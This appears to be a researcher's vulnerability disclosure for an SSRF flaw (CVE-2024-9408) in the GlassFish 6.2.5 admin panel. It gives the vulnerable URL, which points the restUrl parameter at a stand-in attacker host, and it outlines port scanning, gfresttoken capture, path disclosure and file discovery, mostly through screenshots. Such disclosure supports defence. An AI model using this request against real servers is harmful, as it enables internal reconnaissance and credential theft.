 ## Glassfish 6.2.5 Server Side Request Forgery Vulnerability ( CVE-2024-9408 )

SSRF (Server-Side Request Forgery) is a vulnerability that allows an attacker to force the application to send requests from the server to internal or external resources of the attacker's choosing. This can enable the attacker to perform internal port scanning, discover services accessible only from the server, and bypass firewalls to reach otherwise restricted systems.

**Vulnerable Path** : https://[targetexample]:4848/download/log/?contentSourceId=LogViewer&restUrl=https%3A%2F%2F[evilpayload]

**Research Os** : Ubuntu 22.04 , Windows Server 2019  

**Vulnerable Parameter** : restUrl

### Impact
------------------------------------------------               
- [x] Port Scan and Network Discovery
- [x] Information disclosure
- [x] File Discovery

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/glassfish%20Scenario.jpg)

On GlassFish version 6.2.5, an attacker can exploit the ```restUrl``` parameter within the admin panel to trigger an SSRF vulnerability. In addition to performing port and subnet enumeration, the attacker can leverage the vulnerable GlassFish server to interact with their own machine listening within the network, leading to further exploitation such as path disclosure and file discovery. This significantly expands the attack surface.

### Vulnerability Discovery and Port Scanning
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan1.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan2.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan3.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan4.png)

### Obtain gfresttoken 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken1.PNG)


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken2.PNG)

### Path Disclosure
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.160 -  Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/pathdisclosure.PNG)

### File Discovery 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery1.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery2.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery3.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery4.PNG)


